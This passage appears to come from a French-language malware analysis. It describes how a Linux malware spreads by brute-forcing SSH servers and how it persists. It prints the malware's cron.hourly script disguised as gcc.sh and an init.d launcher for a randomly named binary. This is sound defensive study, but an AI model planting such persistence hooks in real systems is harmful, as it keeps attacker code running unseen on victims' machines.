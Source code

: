```
- tcp.c
- thread.c
- findip.c
- dns.c
```

Avec cette seule information, on peut déjà observer certains fichiers intéressants, comme `encrypt.c` ou `hide.c` .

# 🦠 L'infection

Le principal vecteur d'infection utilisé par ce malware est le [bruteforce](https://fr.wikipedia.org/wiki/Attaque_par_force_brute) de serveur SSH, d'où l'importance d'utiliser de privilégié des clés cryptographiques, avec des algorithmes modernes (comme [ED25519](https://www.unixtutorial.org/how-to-generate-ed25519-ssh-key/)), au lieu du traditionnel mot de passe.

Lors de la première infection, le malware va faire en sorte d'assurer sa persistance, pour ce faire, il va en premier lieu créer le fichier `/etc/cron.hourly/gcc.sh`, celui-ci contient un script qui va simplement démarrer toutes les interfaces réseau, se copier dans un autre endroit et se lancer. Le fait que ce script soit présent dans le dossier `/etc/cron.hourly` à son importance, les scripts présents dans ce dossier sont lancé automatiquement par le système toutes les heures.

```sh
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/
for i in `cat /proc/net/dev|grep :|awk -F: {'print $1'}`;
  do ifconfig $i up
done # Démarre toutes les interfaces réseau
cp /lib/libudev.so /lib/libudev.so.6
/lib/libudev.so.6
```

Le nommage du script en `gcc.sh` est sûrement fait pour se faire passer pour le compilateur bien connu `gcc` et donc ne pas paraitre suspect.

Une fois ce script cron créé, le malware va aussi créer un fichier dans `/etc/init.d`, ce dossier contient des fichiers de services systemd, runit ou openrc sous forme de script shell (🤮). Le malware va donc créer dans ce dossier un fichier contenant le code suivant :

```sh
#!/bin/sh
# chkconfig: 12345 90 90
# description: tlvgyjdotz
case $1 in
start)
	/usr/bin/tlvgyjdotz
	;;
stop)
	;;
*)
	/usr/bin/tlvgyjdotz
	;;
esac
```
